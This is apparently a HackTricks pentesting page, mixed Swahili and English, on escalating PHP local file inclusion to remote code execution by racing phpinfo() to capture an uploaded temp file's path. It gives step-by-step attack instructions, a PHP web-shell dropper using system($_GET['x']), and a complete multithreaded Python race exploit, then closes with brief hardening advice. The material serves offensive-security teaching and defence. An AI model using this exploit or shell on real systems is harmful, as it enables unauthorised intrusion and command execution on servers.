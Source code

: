 # LFI to RCE via PHPInfo

{{#include ../../banners/hacktricks-training.md}}

Ili exploit mbinu hii unahitaji yafuatayo yote:
- Ukurasa unaofikika unaochapisha matokeo ya phpinfo().
- Local File Inclusion (LFI) primitive unayodhibiti (mfano, include/require kwenye input ya mtumiaji).
- Uwekaji faili wa PHP umewezeshwa (file_uploads = On). Kila script ya PHP itakubali RFC1867 multipart uploads na kuunda faili ya muda kwa kila sehemu iliyopakiwa.
- PHP worker lazima aweze kuandika kwenye upload_tmp_dir iliyosanifiwa (au default system temp directory) na LFI yako lazima iweze kujumuisha njia hiyo.

Classic write-up and original PoC:
- Whitepaper: LFI with PHPInfo() Assistance (B. Moore, 2011)
- Original PoC script name: phpinfolfi.py (angalia whitepaper na mirrors)

Tutorial HTB: https://www.youtube.com/watch?v=rs4zEwONzzk&t=600s

Vidokezo kuhusu PoC ya asili
- Matokeo ya phpinfo() yame-HTML-encoded, hivyo mshale "=>" mara nyingi huonekana kama "=&gt;". Ikiwa utatumia tena skripti za zamani, hakikisha zinatafuta encodings zote mbili wakati zinapotafsiri thamani ya _FILES[tmp_name].
- Lazima ubadilishe payload (PHP code yako), REQ1 (the request to the phpinfo() endpoint including padding), na LFIREQ (the request to your LFI sink). Malengo mengine hayahitaji null-byte (%00) terminator na toleo za kisasa za PHP hazitaheshimu. Rekebisha LFIREQ ipasavyo kwa sink iliyovulnerable.

Mfano sed (tu ikiwa kwa kweli unatumia PoC ya zamani ya Python2) ili kulinganisha mshale ulioboreshwa kwa HTML:
```
sed -i 's/\[tmp_name\] =>/\[tmp_name\] =&gt;/g' phpinfolfi.py
```
{{#file}}
LFI-With-PHPInfo-Assistance.pdf
{{#endfile}}

## Nadharia

- When PHP receives a multipart/form-data POST with a file field, it writes the content to a temporary file (upload_tmp_dir or the OS default) and exposes the path in $_FILES['<field>']['tmp_name']. The file is automatically removed at the end of the request unless moved/renamed.
- Njia ni kujua jina la muda na kulijumuisha kupitia LFI yako kabla PHP haijaifuta. phpinfo() prints $_FILES, including tmp_name.
- Kwa kuongeza ukubwa wa request headers/parameters (padding) unaweza kusababisha vipande vya mwanzo vya output ya phpinfo() kuitolewa kwa client kabla request haijamalizika, hivyo unaweza kusoma tmp_name wakati file ya muda bado ipo kisha mara moja kulipiga LFI kwa path hiyo.

In Windows the temp files are commonly under something like C:\\Windows\\Temp\\php*.tmp. In Linux/Unix they are usually in /tmp or the directory configured in upload_tmp_dir.

## Mtiririko wa shambulio (hatua kwa hatua)

1) Andaa payload ndogo ya PHP ambayo itaweka shell haraka ili kuepuka kupoteza mbio (kuandika a file kwa ujumla ni haraka kuliko kusubiri reverse shell):
```
<?php file_put_contents('/tmp/.p.php', '<?php system($_GET["x"]); ?>');
```
2) Tuma POST kubwa ya multipart moja kwa moja kwa ukurasa wa phpinfo() ili iunde faili ya temp inayojumuisha payload yako. Ongeza padding kwa headers/cookies/params mbalimbali takriban 5–10KB ili kuhamasisha output mapema. Hakikisha jina la form field linalingana na utakavyolitumia kufasiri $_FILES.

3) Wakati response ya phpinfo() bado inatiririka (streaming), fasiri sehemu ya body ili kutoa $_FILES['<field>']['tmp_name'] (HTML-encoded). Mara tu unapopata path kamili ya absolute (mfano, /tmp/php3Fz9aB), tuma LFI yako ili kuingiza path hiyo. Ikiwa include() itatekeleza faili ya temp kabla ya kufutwa, payload yako itaendeshwa na itaunda /tmp/.p.php.

4) Tumia faili iliyoundwa: GET /vuln.php?include=/tmp/.p.php&x=id (au mahali popote LFI yako inakuwezesha kuingiza) kutekeleza amri kwa uhakika.

> Vidokezo
> - Tumia multiple concurrent workers ili kuongeza nafasi zako za kushinda race.
> - Mahali pa kuweka padding zinazosaidia kawaida: URL parameter, Cookie, User-Agent, Accept-Language, Pragma. Rekebisha kwa kulingana na lengo.
> - Ikiwa vulnerable sink inaongeza extension (mfano, .php), hauitaji null byte; include() itatekeleza PHP bila kujali extension ya faili ya temp.

## Minimal Python 3 PoC (socket-based)

Snippet hapa chini inazingatia sehemu muhimu na ni rahisi kuibadilisha kuliko script ya legacy ya Python2. Badilisha HOST, PHPSCRIPT (phpinfo endpoint), LFIPATH (path to the LFI sink), and PAYLOAD.
```python
#!/usr/bin/env python3
import re, html, socket, threading

HOST = 'target.local'
PORT = 80
PHPSCRIPT = '/phpinfo.php'
LFIPATH = '/vuln.php?file=%s'  # sprintf-style where %s will be the tmp path
THREADS = 10

PAYLOAD = (
"<?php file_put_contents('/tmp/.p.php', '<?php system($_GET[\\"x\\"]); ?>'); ?>\r\n"
)
BOUND = '---------------------------7dbff1ded0714'
PADDING = 'A' * 6000
REQ1_DATA = (f"{BOUND}\r\n"
f"Content-Disposition: form-data; name=\"f\"; filename=\"a.txt\"\r\n"
f"Content-Type: text/plain\r\n\r\n{PAYLOAD}{BOUND}--\r\n")

REQ1 = (f"POST {PHPSCRIPT}?a={PADDING} HTTP/1.1\r\n"
f"Host: {HOST}\r\nCookie: sid={PADDING}; o={PADDING}\r\n"
f"User-Agent: {PADDING}\r\nAccept-Language: {PADDING}\r\nPragma: {PADDING}\r\n"
f"Content-Type: multipart/form-data; boundary={BOUND}\r\n"
f"Content-Length: {len(REQ1_DATA)}\r\n\r\n{REQ1_DATA}")

LFI = ("GET " + LFIPATH + " HTTP/1.1\r\nHost: %s\r\nConnection: close\r\n\r\n")

pat = re.compile(r"\\[tmp_name\\]\\s*=&gt;\\s*([^\\s<]+)")


def race_once():
s1 = socket.socket()
s2 = socket.socket()
s1.connect((HOST, PORT))
s2.connect((HOST, PORT))
s1.sendall(REQ1.encode())
buf = b''
tmp = None
while True:
chunk = s1.recv(4096)
if not chunk:
break
buf += chunk
m = pat.search(html.unescape(buf.decode(errors='ignore')))
if m:
tmp = m.group(1)
break
ok = False
if tmp:
req = (LFI % tmp).encode() % HOST.encode()
s2.sendall(req)
r = s2.recv(4096)
ok = b'.p.php' in r or b'HTTP/1.1 200' in r
s1.close(); s2.close()
return ok

if __name__ == '__main__':
hit = False
def worker():
nonlocal_hit = False
while not hit and not nonlocal_hit:
nonlocal_hit = race_once()
if nonlocal_hit:
print('[+] Won the race, payload dropped as /tmp/.p.php')
exit(0)
ts = [threading.Thread(target=worker) for _ in range(THREADS)]
[t.start() for t in ts]
[t.join() for t in ts]
```
## Utatuzi wa matatizo
- You never see tmp_name: Ensure you really POST multipart/form-data to phpinfo(). phpinfo() prints $_FILES only when an upload field was present.
- Output doesn’t flush early: Increase padding, add more large headers, or send multiple concurrent requests. Some SAPIs/buffers won’t flush until larger thresholds; adjust accordingly.
- LFI path blocked by open_basedir or chroot: You must point the LFI to an allowed path or switch to a different LFI2RCE vector.
- Temp directory not /tmp: phpinfo() prints the full absolute tmp_name path; use that exact path in the LFI.

## Vidokezo vya ulinzi
- Never expose phpinfo() in production. If needed, restrict by IP/auth and remove after use.
- Keep file_uploads disabled if not required. Otherwise, restrict upload_tmp_dir to a path not reachable by include() in the application and enforce strict validation on any include/require paths.
- Treat any LFI as critical; even without phpinfo(), other LFI→RCE paths exist.

## Mbinu zinazohusiana za HackTricks

{{#ref}}
lfi2rce-via-temp-file-uploads.md
{{#endref}}

{{#ref}}
via-php_session_upload_progress.md
{{#endref}}

{{#ref}}
lfi2rce-via-nginx-temp-files.md
{{#endref}}

{{#ref}}
lfi2rce-via-eternal-waiting.md
{{#endref}}



## Marejeo
- LFI With PHPInfo() Assistance whitepaper (2011) – Packet Storm mirror: https://packetstormsecurity.com/files/download/104825/LFI_With_PHPInfo_Assitance.pdf
- PHP Manual – POST method uploads: https://www.php.net/manual/en/features.file-upload.post-method.php
{{#include ../../banners/hacktricks-training.md}}
